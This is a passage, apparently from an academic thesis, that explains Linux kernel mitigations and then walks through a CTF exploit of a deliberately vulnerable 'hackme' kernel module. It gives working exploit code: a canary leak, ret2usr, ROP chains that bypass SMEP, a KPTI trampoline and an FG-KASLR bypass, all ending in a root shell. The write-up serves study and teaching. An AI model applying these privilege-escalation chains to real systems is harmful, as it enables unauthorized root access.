\subsection{Supervisor mode execution protection (SMEP)}
\label{subsect:SMEP}
The Intel i386 processor introduces a new mechanism that provides next level of system protection by blocking malicious software attacks from user mode code when the system is running in the highest privilege level.
This feature marks all the user-land pages in the page table as non-executable when the process is in kernel-mode. This is enabled by setting the 20th bit of Control Register \texttt{CR4}.

\subsection{Supervisor Mode Access Prevention (SMAP)}
\label{subsect:SMAP}
Supervisor Mode Access Prevention (\emph{SMAP}) allows supervisor mode programs to optionally set user-space memory mappings so that access to those mappings from supervisor mode will cause a trap. This makes it harder for malicious programs to ``trick'' the kernel into using instructions or data from a user-space program.
Complementing \emph{SMEP}, this feature marks all the user-land pages in the page table as non-accessible when the process is in kernel-mode, which means they cannot be read or written as well. This is enabled by setting the 21st bit of Control Register \texttt{CR4}.

\subsection{Kernel page-table isolation}
\label{subsect:KPTI}
Kernel page-table isolation (\emph{KPTI} or \emph{PTI}, previously called \emph{KAISER}) is a Linux kernel feature that improves kernel hardening against attempts to bypass kernel address space layout randomization (\emph{KASLR}). It works in order to get a better isolation of user space and kernel space memory.
This mitigation was added to avoid the \emph{Meltdown}, as explained in \refToSection{motiv}.
When this feature is active, the kernel separates user-space and kernel-space page tables entirely, instead of using just one set of page tables that contains both user-space and kernel-space addresses. One set of page tables includes both kernel-space and user-space addresses same as before, but it is only used when the system is running in kernel mode. The second set of page tables for use in user mode contains a copy of user-space and a minimal set of kernel-space addresses.

\subsection{Function Granular Kernel Address Space Layout Randomization}
\label{subsect:FG-KASLR}
\emph{FG-KASLR} is probably the strongest Linux kernel mitigation feature.
This patch set is an implementation of finer grained kernel address space randomization. It rearranges our kernel code at load time on a per-function level granularity, with only around a second added to boot time.
KASLR was merged into the kernel with the objective of increasing the difficulty of code reuse attacks. Code reuse attacks reused existing code snippets to get around existing memory protections. They exploit software bugs which expose addresses of useful code snippets to control the flow of execution for their own nefarious purposes. KASLR moves the entire kernel
code text as a unit at boot time in order to make addresses less predictable.
The order of the code within the segment is unchanged - only the base address is shifted. There are a few shortcomings to this algorithm.
\begin{enumerate}
\item Low Entropy - there are only so many locations the kernel can fit in. This means an attacker could guess without too much difficulty.
\item Knowledge of a single address can reveal the offset of the base address, exposing all other locations for a published/known kernel image.
\item Info leaks abound.
\end{enumerate}

\emph{Finer-grained ASLR} has been proposed as a way to make \emph{ASLR} more resistant to info leaks. It is not a new concept at all, and there are many variations possible. Function reordering is an implementation of finer grained \emph{ASLR} which randomizes the layout of an address space on a function level granularity.

\chapter{Use case: a CTF challenge}
\label{ch:adding mitigation}
In \refToChapter{analyze} we created and set up our environment. To understand if this environment allows to analyze a kernel it is necessary to test it with some use case.
In this chapter, we tested our environment with an example prepared for a \emph{CTF} challenge. We will show two important aspects at the same time: 
\begin{itemize}
\item go to analyze the kernel by activating the mitigations seen in \refToChapter{mitigation} as we go. We will see what is possible or not with active mitigations and if it is always possible to exploit the vulnerability;
\item observe the behaviour of our debugging environment on the different kernel settings.
\end{itemize}
\section{Setup environment}
\label{sect:set-up}
Our goal is to exploit a vulnerable customized kernel module that is installed into the kernel at boot time.
We used the setup seen for the kernel in the section \refToSection{configuration} and the one for \emph{QEMU} \refToSubSection{QEMU}.
Since it is a \emph{CTF}, where it is usual to use a flag to prove that we get the admin mode, we need to add some options in the \emph{QEMU} setup.
To do this, the command is also added to the \emph{QEMU} settings:
\lstinline{-hda flag.txt}
that puts \texttt{flag.txt} into \texttt{/dev/sda} instead of leaving the \texttt{flag.txt} as a normal file in the system.
Another important step is to find gadgets inside the kernel to be able to build a \emph{ROP} chain.
This is possible via \texttt{ROPgadget}~\cite{rop_gadget}, which searches for all possible gadgets inside the kernel.
Since this type of operation produces a huge amount of data, it is a good practice to save everything on a file that can always be consulted in the following steps.
In order to perform the exploit, the executable file containing the necessary steps for the exploit must be inserted into the file system.
\subsection{Analyzing the kernel module}
\label{subsect:hackme}
The module contains six different methods.
They allow us to communicate with this module by opening \lstinline{/dev/hackme} and reading and writing to it.
\begin{lstlisting}
ssize_t __fastcall hackme_write(file *f, const char *data, size_t size, loff_t *off)
{
    //...
    int tmp[32];
    //...
    if ( _size > 0x1000 )
    {
        _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL, _size);
        BUG();
    }
    _check_object_size(hackme_buf, _size, 0LL);
    if ( copy_from_user(hackme_buf, data, v5) )
        return -14LL;
    _memcpy(tmp, hackme_buf);
    //...
}
ssize_t __fastcall hackme_read(file *f, char *data, size_t size, loff_t *off)
{
    //...
    int tmp[32];
    //...
    _memcpy(hackme_buf, tmp);
    if ( _size > 0x1000 )
    {
        _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL, _size);
        BUG();
    }
    _check_object_size(hackme_buf, _size, 1LL);
    v6 = copy_to_user(data, hackme_buf, _size) == 0;
    //...
}
\end{lstlisting}
The bug, the same in both methods, is a wrong check of the buffer size: the actual size is 0x80 bytes, but the function only warns of a buffer overflow if the size is greater than 0x1000 bytes. Using this bug, we can freely read/write to the kernel stack.
\section{Stack canaries}
\label{sect:stackC}
Now, let us see what we can do with the above primitives to gain root privileges, starting with one possible mitigation feature: only stack canaries.

The idea is to insert the piece of code which we want the program’s flow to jump into in the user-land itself. After that, we have to just overwrite the return address of the function that is called in the kernel with that address. Due to the fact that the vulnerable function is a kernel one, our code - even though being in the user-land - is executed under kernel mode. In this way, we have already achieved arbitrary code execution goal.
In order to use this kind of technique, we will remove most of the mitigation features in the \emph{QEMU} run the script by removing \texttt{+smep, +smap, kpti=1, kaslr, and adding nopti, nokaslr}.
\subsection{Step by step to exploit}
First of all, we have to open the \texttt{hackme} function with the \texttt{open} method. It returns a file descriptor which will be used later in the next steps.
Using a \texttt{read} function, we are going to get the stack information.
The \emph{buffer}, in the stack itself, is 0x80 bytes long and the stack cookie is immediately after it. Therefore, if we have to read the data using an unsigned long array (each element is 8 bytes), the cookie will be at offset 16.
To overwrite the return address,  we will create an unsigned long array. Then, we have to give to overwrite the cookie with our leaked cookie at index 16. However, note that after the cookie there are three registers \texttt{RBX, R12, and RBP} (in the user-land, they are different because the only \texttt{RBP} appears).
This involves inserting three dummies values after our cookie. Then we have to insert the return address we want our program to return to, which corresponds to the function we will create in the user area to get root privileges.
\subsection{Getting root privileges}
\label{subsect:get privileges}
Our goal is to get root privileges on the system.
This can be done through two functions that already reside in the same kernel-space code:
\\\texttt{commit\_creds()} and \texttt{prepare\_kernel\_cred()}.

Since \emph{KASLR} is disabled, the addresses where the functions reside are the same at every boot. So we can get those addresses by reading the \texttt{/proc/kallsyms} file with the following bash commands:
\begin{lstlisting}
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred
\end{lstlisting}
Then, to get root privileges we need to write a code where the two functions are called consecutively using the return value of one as a parameter of the other one.
At this point, we need to recall an instruction that allows us to return to user-land.
This can be done with these two different funciotns: \texttt{iretq} or \texttt{sysretq}.
With the first one \texttt{iretq}, it is much simpler because we need to configure the stack with five user area registry values in this order: \texttt{RIP | CS | RFLAGS | SP | SS}.
For the other function \texttt{RIP}, we can set the address of the function that allows us to open a shell while for the others we need to enter values that return to a state before getting kernel mode.
Therefore, the best solution is to save the state of the registers before entering the kernel mode and reload them after obtaining root privileges.
\begin{lstlisting}
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
\end{lstlisting}
One more instruction called \texttt{swapgs} must be called before \texttt{iretq}. The purpose of this instruction is also to swap the \texttt{GS} register between kernel-mode and user-mode.
In general, it is appropriate to invoke the \texttt{swapgs} instruction because the syscall does not change \texttt{RSP} to point to the kernel stack, and it does not save \texttt{RSP} user space anywhere. So, some kind of thread-local (or core-local) storage is needed because each core can get the correct kernel stack pointer for the task running on that core.
With all these information, we can complete the code to gain root privileges, then come back to user-mode:
\begin{lstlisting}[caption={first step}\label{lst:first_stepctf}]
unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs RAX, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor RDI, RDI;"
        "call RAX; mov RDI, RAX;"
        "movabs RAX, 0xffffffff814c6410;" //commit_creds
        "call RAX;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
\end{lstlisting}
\section{Adding SMEP}
\label{sect:addSmep}
In \refToSubSection{get privileges} we used our piece of code which is saved in the userspace. Using \emph{SMEP}, as \refToSubSection{SMAP}, user pages are marked as not executable while in kernel mode.
There are two possible scenarios:
\begin{itemize}
\item write an arbitrary amount of data to the kernel stack;
\item overwrite up to the return address on the kernel stack.
\end{itemize}
Let us start by investigating the first one.
\subsection{Try overwriting CR4}
\label{subsect:CR4}
The 20th bit of the \texttt{CR4} control register is responsible for enabling or disabling \emph{SMEP}.
When we are in kernel mode, we have the power to modify the content of the control register.
To do this, there is a special instruction \lstinline{mov CR4, RDI} called by a function named \texttt{native\_write\_CR4()}.

So, the first attempt to bypass \emph{SMEP} is to \emph{ROP} into \texttt{native\_write\_cr4(value)}, where value is set to clear the 20th bit of \texttt{CR4}.
As for the \texttt{commit\_creeds()} and \\\texttt{prepare\_kernel\_cred()} functions, we have to find the address by reading \lstinline{/proc/kallsyms}.

In order to build the ROP chain, we have to use the same approach of user-land, but instead of going back to our user-land code, we have to go back into the \texttt{native\_write\_CR4(value)} function, then we have to insert the value we need and then go back to the code to get the privileges.
By reading the documentation of the \texttt{CR4} bit, in particular about newer kernel versions, the 20th and 21st bits of \texttt{CR4} are pinned on boot, and they will immediately be set again after being cleared. So, in this way they can never be overwritten anymore.

The first approach went wrong. At least, we have to understand that we have the power to overwrite \texttt{CR4} in kernel-mode. The kernel developers have to already be aware of this vulnerability and not allow us from using this way to exploit the kernel. So, we have to move on to develop a better exploitation that will work.

\subsection{Second scenario}
\label{subsect:second scenario}
In the second scenario, we will get rid of the idea of getting root privileges by running our own code completely, and try to achieve it by using ROP only. The plan is straightforward:
\begin{itemize} 
\item ROP into \texttt{prepare\_kernel\_cred(0)}, already seen;
\item ROP into \texttt{commit\_creds()}, with the return value from code \ref{lst:first_stepctf} as the parameter;
\item ROP into \texttt{swapgs; ret;}
\item ROP into \texttt{iretq} with the stack setup as \texttt{RIP | CS | RFLAGS | SP | SS}, already seen.
\end{itemize}
The ROP chain itself is not complicated at all, but there are still some hitches in building it. Firstly there are a lot of gadgets that \texttt{ROPgadget} found but are unusable. Therefore, we had to do a lot of trials-and-errors and finally ended up using these gadgets to move the return value in code \ref{lst:first_stepctf} (stored in \texttt{RAX}) into \texttt{RDI} to pass to \texttt{commit\_creds()}. They might seem a bit strange, but all of the ordinary gadgets that we tried are non-executable:
\begin{lstlisting}
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8; jne 0xffffffff81964cbb; pop RBX; pop RBP; ret
unsigned long mov_rdi_Rax_jne_pop2_ret = 0xffffffff8166fea3; // mov RDI, RAX; jne 0xffffffff8166fe7a; pop RBX; pop RBP; ret
\end{lstlisting}
This is not always the case, it depends on the kernel in use, in fact very important at this stage is to try all possible solutions.
The above code, entering 8 in \texttt{RDX} ignores the \texttt{jne} instruction, allows us to write the \texttt{RAX} value in \texttt{RDI} that will be used for the \texttt{commit\_creds function(prepare\_kernel\_cred(0))}
while \texttt{ROPgadget} can find \texttt{swapgs}, it does not find \texttt{iretq}, so we have to use \emph{objdump}~\cite{weatherspoonassemblers} to find the right address and be able to write the full ROP chain.
\begin{lstlisting}
void get_shell(void){
    puts("[*] Returned to user-land");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, did not get root\n", getuid());
        exit(-1);
    }
}
unsigned long user_rip = (unsigned long)get_shell;
unsigned long pop_RDI_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop RBX ; pop RBP ; ret
unsigned long mov_RDI_RAX_jne_pop2_ret = 0xffffffff8166fea3; // mov RDI, RAX ; jne 0xffffffff8166fe7a ; pop RBX ; pop RBP ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop RBP ; ret
unsigned long iretq = 0xffffffff8100c0d9;
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // RBX
    payload[off++] = 0x0; // R12
    payload[off++] = 0x0; // RBP
    payload[off++] = pop_RDI_ret; // return address
    payload[off++] = 0x0; // RDI <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE does not branch
    payload[off++] = 0x0; // dummy RBX
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = mov_RDI_RAX_jne_pop2_ret; // RDI <- RAX
    payload[off++] = 0x0; // dummy RBX
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    .....
}

\end{lstlisting}
\section{Adding KPTI}
\label{sect:trampoline}
As mentioned in \refToSubSection{KPTI} the user-space and kernel-space page tables are separate. In fact, in user mode, a page set includes user-space page tables and only a few kernel-space addresses.
There are several ways to bypass this mitigation, but the one we are going to look at is called a \emph{trampoline}.
Logically, if a system call returns correctly there must be a piece of code in the kernel that swaps the page tables to the user-land, so we will try to reuse that code for our purpose.
This piece of code is called trampoline and swaps the page tables, \texttt{swapgs}, and \texttt{iretq}.
\subsection{Tweaking the ROP chain}
The piece of code resides in a function called \\\texttt{swapgs_restore_regs_and_return_to_usermode()} which we always have to find with \texttt{/proc/kallsyms}.
\begin{lstlisting}
.text:FFFFFFFF81200F10                 pop     r15
...
.text:FFFFFFFF81200F26                 mov     RDI, rsp
.text:FFFFFFFF81200F29                 mov     rsp, qword ptr gs:unk_6004
.text:FFFFFFFF81200F32                 push    qword ptr [RDI+30h]
.text:FFFFFFFF81200F35                 push    qword ptr [RDI+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [RDI+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [RDI+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [RDI+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [RDI]
.text:FFFFFFFF81200F43                 push    RAX
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...

.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     RAX
.text:FFFFFFFF81200F8A                               pop     RDI
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
\end{lstlisting}
Up to the address \texttt{OxFFFFFFFF81200F26} the function makes a series of pop operations that free the stack, then we have to get to the part that swaps the tables of the page.
We have two extra pop at the beginning, then we have to add two additional values, so we have to modify the final part of our ROP chain from \texttt{SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS)} to \texttt{KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS}.
\begin{lstlisting}
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
\end{lstlisting}
This solution can be used regardless of whether KPTI is enabled or not.
So, even if different from the one seen in \refToSubSection{second scenario}, it can be used to bypass the SMEP.
\section{Adding SMAP}
\label{sect:addSmap}
This feature marks all the user-land pages in the page table as non-accessible when the process is in kernel-mode, which means they cannot be read or written.
In the kernel, this is enabled by setting the 21st bit of Control Register \texttt{CR4}.
On boot, it can be enabled by adding \texttt{+smap} to \texttt{-cpu}, and disabled by adding \texttt{nosmap} to \texttt{-append}.
The situation becomes significantly different for the two scenarios seen in \refToSubSection{CR4}:
\begin{itemize}
\item in the first scenario, our whole ROP chain is stored on the kernel stack, and no data are accessed from the user-land. Therefore, our previous payload would still be viable without any modification.
\item in the second scenario, recall that we have to pivot the stack into a page in the user-land. The operations (like push and pop the stack) require read and write access to it, and SMAP prevents that from happening. As a result, the stack pivoting payload would no longer be viable. In fact, as far as we know, our current \texttt{read} and \texttt{write} primitives from the stack is not enough to produce a successful exploit, we would need a far stronger primitive to exploit the kernel module in this case, which may involve knowledge of the page tables and page directory, or some other advanced topics. 
\end{itemize}
With the current knowledge we are unable to exploit if SMAP is added for this type of bug.
\section{Adding KASLR and FG-KASLR}
\label{sect:kaslr-fg-kaslr}
With KASLR active, as ASLR in user-land, the base address on which the kernel image is loaded is randomized each time the system is booted.
To overcome this problem in the user-land we have to leak an address in the section, we have to calculate the base address of the section from it and then all the other addresses will only be moved from there because the only randomized thing is the base address, while the offset remains unchanged.
Theoretically, this should be the same for KASLR, but booting the system several times and then reading \texttt{/proc/kallsyms} shows that most of the symbols are randomized by themselves, without having a constant offset like in user-land.
This is due to FG-KASRL reorganizing the kernel code at load time on a per-function level.
In theory, if everything in the kernel is completely randomized, it will be nearly impossible for us to collect useful gadgets from the kernel image. But such mitigation functionality still suffers from weaknesses and thus a successful exploit is still possible.
\subsection{Gathering useful gadgets}
This mitigation not being perfect presents regions within the code that are never randomized.
This differs from kernel to kernel. For example, here are several functions that are never randomized(as we can also see in the figure \ref{figure:address_graphview}):
\begin{lstlisting}
/ # grep __x86_retpoline_r15 /proc/kallsyms
ffffffffbce00dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffffbca00000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffffbcc00f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffffbd985198 R __start___ksymtab 

/ # grep __x86_retpoline_r15 /proc/kallsyms
ffffffff8ea00dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffff8e600000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffff8e800f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffff8f585198 R __start___ksymtab

/ #  grep __x86_retpoline_r15 /proc/kallsyms
ffffffffaa000dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffffa9c00000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffffa9e00f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffffaab85198 R __start___ksymtab
\end{lstlisting}

The functions from \texttt{\_text base} to \texttt{\_\_x86\_retpoline\_r15}, which is \texttt{\_text+0x400dc6} are unaffected. Unfortunately, \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred} do not reside in this region, but we can still look for useful registers and memory manipulation gadgets from this point.
KPTI trampoline \texttt{swapgs\_restore\_regs\_and\_return\_to\_usermode} is unaffected.
The kernel symbol table ksymtab, starts at \texttt{\_text+0xf85198} is unaffected. In here contains the offsets that can be used to calculate the addresses of \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred}.

\begin{lstlisting}
unsigned long pop_rax_ret = image_base + 0x4d11UL; // pop rax; ret
unsigned long read_mem_pop1_ret = image_base + 0x4aaeUL; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
unsigned long pop_rdi_rbp_ret = image_base + 0x38a0UL; // pop rdi; pop rbp; ret;
\end{lstlisting}

The first two gadgets can be used to read an arbitrary memory block, by simply popping its address subtract by 0x10 to \texttt{RAX}. The third gadget is a normal \texttt{pop RDI} for functions' parameter.

\texttt{__ x86_retpoline_r15, swapgs_restore_regs_and_return_to_usermode, ksymtab}\\ are never randomized with respect to \texttt{_text}, and in particular both \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred} keep the same offset inside \texttt{ksymtab}.
Instead, to find the base image, we need to inspect the stack when reading the module, look at a large amount of data and find an address located in the \texttt{_text} region.
Reading 320 bytes, we find at 304th byte an address that falls in the region of \texttt{_text}. From that value, we have to subtract the address of \texttt{_text} and find the base image.
\begin{figure}[h!]
  \caption{Find address in the stack in no randomize region}
   \makebox[\textwidth][c]{
\includegraphics[height=0.61
  \textwidth]{images/findAddressToImageBase.png}}
   \label{figure:address_graphview}
\end{figure}

\begin{lstlisting}
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_RAX_ret = image_base + 0x4d11UL;
    read_mem_pop1_ret = image_base + 0x4aaeUL;
    pop_RDI_RBP_ret = image_base + 0x38a0UL;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("    --> Cookie: %lx\n", cookie);
    printf("    --> Image base: %lx\n", image_base);
}
}
\end{lstlisting}
At this point, we have four stages:
\begin{enumerate} 
\item leaking \texttt{commit\_creds()};   
\item leaking \texttt{prepare\_kernel\_cred};
\item calling \texttt{prepare\_kernel\_cred(0)};
\item calling \texttt{commit\_creds()} and opening root shell.
\end{enumerate}
\subsection{Leaking \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred()}}
The goal is to leak \texttt{commit\_creds} and read the \texttt{value\_offset} of \texttt{ksymtab_commit_creds}, then add them together. We want to use our two memory reading gadgets to read it, using the ROP technique introduced in \refToSection{trampoline}, and safely return to the user-land via the KPTI trampoline to prepare for the next step.
\begin{lstlisting}
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // RBX
    payload[off++] = 0x0; // R12
    payload[off++] = 0x0; // RBP
    payload[off++] = pop_RAX_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // RAX <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_commit_creds;
    ....
}
void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("    --> commit_creds: %lx\n", commit_creds);
    stage_2();
}
\end{lstlisting}
Second stage is exactly the same as \texttt{stage_1} above:
\begin{lstlisting}
void stage_2(void){
    ...
    //the same as 1 stage
    ...
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10; // RAX <- __ksymtabs_prepare_kernel_cred - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_prepare_kernel_cred]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    ....
}

void get_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

\end{lstlisting}
\subsection{Calling \texttt{commit\_creds(prepare\_kernel\_cred(0))}}
Since the number of gadgets is limited, it was impossible to find a ROP chain calling \texttt{commit_creds(prepare_kernel_cred(0))}.
The only solution is to divide the chain into two parts:
\begin{itemize}
  \item call \texttt{prepare\_kernel\_cred(0)} function saving the return value in \texttt{RAX};
  \item call \texttt{commit\_creds()} function using the value we have in \texttt{RAX}.
\end{itemize}
This way we bypass a fairly difficult part of the ROP chain, move the value received from \texttt{prepare\_kernel\_cred(0)} from \texttt{RAX} to \texttt{RDI} and pass it to the \texttt{commit\_creds()} function.
\begin{lstlisting}
void stage_3(void){
    ...
    //As stage 1
    ...
    payload[off++] = pop_RDI_RBP_ret; // return address
    payload[off++] = 0; // RDI <- 0
    payload[off++] = 0; // dummy RBP
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    ...
}

void after_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    returned_creds_struct = tmp_store;
    printf("    --> returned_creds_struct: %lx\n", returned_creds_struct);
    stage_4();
}

void stage_4(void){
    ...
    //As stage 3
    ...
    payload[off++] = returned_creds_struct; // RDI <- returned_creds_struct
    payload[off++] = 0; // dummy RBP
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds(returned_creds_struct)");
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
\end{lstlisting} 

